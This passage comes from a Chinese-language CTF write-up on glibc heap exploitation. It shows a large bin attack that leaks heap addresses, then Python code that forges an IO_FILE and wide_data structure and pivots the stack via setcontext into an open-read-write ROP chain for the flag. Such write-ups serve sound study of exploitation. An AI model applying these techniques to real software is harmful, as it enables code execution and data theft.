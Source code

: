    ```py
   success("heap_addr==>"+hex(heap_addr))
   ```

   这里由于只有large bin，没有chunk进入fastbin和tcache，所以可以在完成large bin attack的同时，利用large bin fd指针上的值泄漏堆地址。

   这里泄漏libc地址，同时可以看到fd指针上是无法得到堆地址的：

   ![image-20240903210634702](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409032106817.png)

   这里完成一次large bin attack攻击 ，同时泄漏堆地址：

   ![image-20240903215757651](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409032157802.png)

   ![image-20240903211336770](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202409032113884.png)

   

2. 后面在堆上伪造IO_FILE 同时 写好ORW ，利用_IO_switch_to_wget_mode完成栈迁移（堆上布置好rsp和rcx寄存器的值），这里将IO_FILE、ORW、 _wide_data、寄存器传参、直接全部在一个堆上伪造（这里堆的各种偏移需要调试计算好）：

   ```python
   # ORW
   syscall = read_addr+16
   flag = heap_addr+0x1230		# 前面堆上写入的b"./flag\x00\x00"地址
   
   # open(0,flag)
   orw =p64(pop_rdi_ret)+p64(flag)
   orw+=p64(pop_rsi_ret)+p64(0)
   orw+=p64(pop_rax_ret)+p64(2)
   orw+=p64(syscall)
   # orw =p64(pop_rdi_ret)+p64(flag)
   # orw+=p64(pop_rsi_ret)+p64(0)
   # orw+=p64(open_addr)
   
   # read(3,heap+0x1010,0x30) 
   orw+=p64(pop_rdi_ret)+p64(3)
   orw+=p64(pop_rsi_ret)+p64(heap_addr+0x1010)
   orw+=p64(pop_rdx_r12_ret)+p64(0x30)+p64(0)
   orw+=p64(read_addr)     
   
   # write(1,heap+0x1010,0x30)
   orw+=p64(pop_rdi_ret)+p64(1)
   orw+=p64(pop_rsi_ret)+p64(heap_addr+0x1010)#存放地址0x50
   orw+=p64(pop_rdx_r12_ret)+p64(0x30)+p64(0)
   orw+=p64(write_addr)
   
   
   # debug()
   # ========== 伪造IO_FILE ==========
   file = p64(0) + p64(0)              #_IO_read_end    _IO_read_base
   file+= p64(0) + p64(1) + p64(0)     #_IO_write_base  _IO_write_ptr _IO_write_end
   file+= p64(0) + p64(0)              #_IO_buf_base    _IO_buf_end
   file+= p64(0) * 11                  #_IO_save_base ~ _codecvt
   file+= p64(heap_addr + 0x370)        #_wide_data
   file+= p64(0) *3                    #_freeres_list ~ __pad5
   file+= p64(1) + p64(0)*2            # _mode  _unused2 (2dword)
   
   file+=p64(IO_wfile_jumps_addr + 0x30)   #vtable
   
   #_IO_wide_data_2
   _wide_vtable = heap_addr + 0x380
   rdx = heap_addr + 0x380			   # rdi --> rdx 转换
   stack_change = heap_addr + 0x460
   
   file+= p64(0)*3                                      #_IO_read_ptr   _IO_read_end  _IO_read_base
   file+= p64(1) + p64(rdx) + p64(setcontext_addr)      #_IO_write_base _IO_write_ptr _IO_write_end
   ```